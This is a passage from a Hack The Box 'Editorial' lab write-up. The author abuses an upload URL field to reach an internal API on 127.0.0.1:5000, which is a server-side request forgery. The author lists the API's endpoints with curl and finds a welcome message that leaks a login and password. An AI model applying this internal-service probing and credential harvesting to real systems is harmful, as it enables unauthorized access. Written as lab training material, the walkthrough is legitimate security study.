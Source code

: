 But trying to visit the link in the browser gives us a 404:

![htb_editorial_404.png](../assets/editorial_assets/htb_editorial_404.png)

Strangely, re-sending the request and generating a new link works this time, and I can use curl to access the response:

```
┌──(ryan㉿kali)-[~/HTB/Editorial]
└─$ curl http://editorial.htb/static/uploads/b6b7b8fc-2762-42ba-9838-37385d77dddc
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

So looks like this is an API with several different endpoints.

Trying them each out by entering them into the URL field, pressing enter, and then opening the new 'image' in a new tab prompts the download of each file:

`http://127.0.0.1:5000/api/latest/metadata/messages/authors` proved to be the most interesting:

![htb_editorial_image.png](../assets/editorial_assets/htb_editorial_image.png)

```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
